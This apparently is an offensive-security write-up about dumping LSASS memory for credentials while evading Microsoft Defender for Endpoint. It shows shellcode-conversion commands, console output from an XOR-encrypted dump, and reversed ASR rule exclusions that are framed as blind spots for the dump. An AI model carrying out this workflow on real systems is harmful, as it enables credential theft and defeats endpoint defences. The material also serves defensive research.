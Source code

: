 Blog Reference: <https://dec0ne.github.io/research/2022-11-14-Undetected-Lsass-Dump-Workflow/>	

Using the above blog as a reference, it is possible to build a C++ DLL / EXE leveraging the MiniDumpWriteDump API for an encrypted LSASS dump primarily to bypass the Signature of the dump by performing simple XOR / AES encryption. In this case, XOR is leveraged.

Build and compile the DLLHijackLSASSDump POC as an exe / DLL and later convert it to shellcode using [pe2shc](https://github.com/hasherezade/pe_to_shellcode) / [donut](https://github.com/TheWover/donut). Test the shellcode using runshc64.

*NOTE: The source for the DLLHijackLSASSDump shellcode can be found in the `/shellcode` folder on GitHub.*

```
C:> .\pe2shc.exe .\DLLHijackLSASSDump.dll DLLHijackLSASSDump.bin
Using: Loader v2
Reading module from: .\DLLHijackLSASSDump.dll
[INFO] This is a console application.
[INFO] Saved as: DLLHijackLSASSDump.bin

C:> .\runshc64.exe .\DLLHijackLSASSDump2.bin
[*] Reading module from: .\DLLHijackLSASSDump2.bin
>>> Creating a new thread...
[*] Running the shellcode [28e06530000 - 28e06539600]
[+] Searching for LSASS PID
[+] LSASS PID: 1520
[+] Starting dump to memory buffer
[+] Copied 89925780 bytes to memory buffer
[+] Successfully dmped LS@SS to memory!
[+] Xor encrypting the memory buffer containing the dump data
[+] Xor key: ripLs4SS123
[+] Enrypted dump data written to "ENCRYPTED.DMP" file
```

Once done, we serve the shellcode from a remote webserver.

MDE heavily relies on ASR rules for telemetry and detection as noticed above. To perform a successful LSASS dump using the standard MiniDumpWriteDump function (by getting a handle to the LSASS process), we can attempt to invoke this function from an ASR excluded process. 

Reversing and parsing ASR .LUA rules, it is possible to find blind spots to perform trusted execution using the MiniDumpWriteDump function. We can use this approach to gain trusted execution blinding MDE of process telemetry. [hfiref0x](https://github.com/hfiref0x) wrote such a tool named [wd-extract](https://github.com/hfiref0x/WDExtract). 

Pay attention to the ASR reversed rule primarily targeting LSASS dump detections - "Blocking Credential Stealing from LSASS": <https://github.com/HackingLZ/ExtractedDefender/blob/main/asr/9e6c4e1f-7d60-472f-ba1a-a39ef669e4b2>

```
GetPathExclusions = function()
  -- function num : 0_2
  local l_3_0 = {}
  l_3_0["%windir%\\system32\\WerFaultSecure.exe"] = 2
  l_3_0["%windir%\\system32\\mrt.exe"] = 2
  l_3_0["%windir%\\system32\\svchost.exe"] = 2
  l_3_0["%windir%\\system32\\wbem\\WmiPrvSE.exe"] = 2
  [...snip...]
  l_3_0["%windir%\\system32\\CompatTelRunner.exe"] = 2

GetCommandLineExclusions = function()
  -- function num : 0_3
  local l_4_0 = "^\\\"?.:\\\\windows\\\\system32\\\\werfault\\.exe\\\"?((?!\\-s).)*$"
  local l_4_1 = {}
  l_4_1[l_4_0] = 0
  return l_4_1
end
```
